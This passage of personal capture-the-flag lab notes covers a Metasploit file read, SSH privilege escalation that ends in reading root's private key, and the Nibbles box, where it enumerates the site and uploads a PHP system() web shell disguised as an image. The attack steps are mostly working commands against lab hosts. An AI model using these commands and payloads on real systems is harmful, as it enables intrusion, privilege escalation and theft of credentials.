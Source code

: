 ```msf
set FILEPATH /flag.txt
run
```

```sh
cat /home/wowon/.msf4/loot/20220213124301_default_178.62.99.162_simplebackup.tra_218096.txt
```

## Privilege Escalation
```sh
SSH to 178.62.99.162 with user "user1" and password "password1"
```
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
```sh
ssh user1@178.62.99.162 -p 31869
```

```sh
cd /home/user2
sudo -l
sudo -u user2 /bin/bas
cat flag.txt
```

```sh
cd /root/
cd .ssh/
cat id_rsa
```

copy the private key and ssh with it.
```sh
ssh root@178.62.99.162 -p 31869 -i id_rsa
cat flag.txt
```

## Nibbles - Enumeration
Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)
```sh
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
```

## Nibbles - Initial Foothold
```sh
gobuster -u 10.129.200.170 -w /home/wowon/Documents/File/SecLists/Discovery/Web-Content/common.txt
```

```
http://10.129.200.170/nibbleblog/content/private/
```

```sh
curl http://10.129.200.170/nibbleblog/content/private/config.xml | xmllint --format -
curl http://10.129.200.170/nibbleblog/content/private/users.xml | xmllint --format -
```
publish in image extention
```php
<?php system("id"); ?>
```
output error php, bahwa php bisa di ekspoitasi
```error
**Warning**: imagesx() expects parameter 1 to be resource, boolean given in **/var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php** on line **26**  
  
```